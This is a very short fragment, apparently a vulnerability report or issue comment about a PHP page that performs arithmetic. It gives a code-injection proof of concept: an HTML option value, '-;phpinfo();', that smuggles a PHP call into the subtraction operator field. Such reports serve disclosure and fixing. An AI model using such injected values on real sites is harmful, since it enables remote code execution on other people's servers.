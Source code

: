 Try to add phpinfo() in html code, like this:

`<option value="-;phpinfo();">-</option>`

and make subtraction. Done.
